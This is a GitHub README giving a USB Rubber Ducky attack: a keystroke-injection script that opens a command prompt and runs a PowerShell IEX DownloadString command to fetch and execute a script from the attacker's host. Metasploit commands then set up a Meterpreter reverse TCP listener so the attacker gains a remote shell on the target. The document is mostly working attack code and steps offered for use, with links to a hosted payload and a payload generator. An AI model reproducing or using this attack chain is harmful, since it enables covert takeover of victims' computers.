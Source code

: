 REM * Author - Ujjwal Thakran
REM 
REM * When You insert the ducky it will run a Powershell download command from which you can use you Kali linux or If you have Metasploit properly installed than also you mac or other Linux Distros to create a meterpeter session with the target computer
REM 
REM * Alternative to [Payload Reverse Shell](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload---reverse-shell)
REM 
REM 1. Encode your usb rubber Ducky with the Following


```
REM Replace the Site/IP address with you Kali linux IP Address
DELAY 800
GUI r
DELAY 800
STRING cmd
DELAY 300
ENTER
DELAY 300
STRING powershell IEX (New-Object Net.WebClient).DownloadString('(Site/IP address)/powershell.ps1')
DELAY 300
ENTER
```



#### I suggest using [Ducky Encoder](https://ducktoolkit.com/encoder/) for this Payload 

2. Create a PowerShell Meterpreter reverse TCP payload and Place it on your Host Computer 
#### Use This to create the Payload [Powershell Payload generator](https://github.com/b00stfr3ak/Powershell-Reverse-Rubber-Ducky))

Here is the Powershell Payload I generated for My IP

#### [Payload Link](https://pastebin.com/c7xrRCY9)

3. Fire up MSFCONSOLE and start the listener:



```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST (Your IP)
set LPORT (Your PORT #)
run
```




4. Insert the USB rubber ducky in and wait for the magic to happen

##### And Thats It folks You can run custom


```
Shell
```


#### After that


* ###### Contact Me on Github or Email me at (ujjwalthakran@hotmail.com) For Edit or help Thanks
